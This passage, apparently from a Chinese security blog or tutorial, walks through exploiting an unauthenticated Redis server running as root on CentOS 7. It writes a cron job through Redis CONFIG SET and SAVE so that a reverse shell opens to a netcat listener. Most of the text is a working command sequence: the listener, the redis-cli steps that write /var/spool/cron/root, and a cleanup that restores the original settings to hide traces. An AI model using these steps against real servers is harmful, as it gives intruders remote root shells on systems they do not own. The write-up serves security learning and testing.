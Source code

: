 环境：
*    redis 3.0.0
*    CentOS Linux release 7.8.2003 (Core)

写计划任务必须拥有计划任务目录的写权限，所有这里以Root进行redis服务的启动。

kali进行一个监听 `nc -lvp 8986`.

这里主要以`redis-cli`连接方式进行演示。剩下2种方式操作参考上面就行了。

设置键并且赋值，设置文件输出目录，设置输出文件名，这里是以root启动服务，所有文件名就设置为root。
这里计划任务的意思为每分钟执行下反弹命令。

![](/img/redis/db33fa12-97cf-4948-ad71-a4eb197a6007.jpg)

过了1分钟，shell完成反弹。

![](/img/redis/c06ded24-d85b-44f8-8e3a-e3acf703072a.jpg)

测试了centos7和ubuntu，默认情况下redis写入计划任务反弹shell，在centos下是可以的。

由于redis写入文件会写入脏数据，ubuntu计划任务不允许有脏数据，所以ubuntu没办法通过redis写入计划任务进行操作。

```
keys *    查看所有键
set x "\n\n计划任务内容\n\n"    创建x键并且赋值
config get *    查看设置默认值
config set dir /var/spool/cron    设置文件写入目录
config set dbfilename root    设置写入文件名
save    保存，完成文件写入
del x    删除创建的x键
config set dir /home/cooltige/redis-4.0.0    设置回原来的目录
config set dbfilename dump.rdb    设置回原来的文件名
```
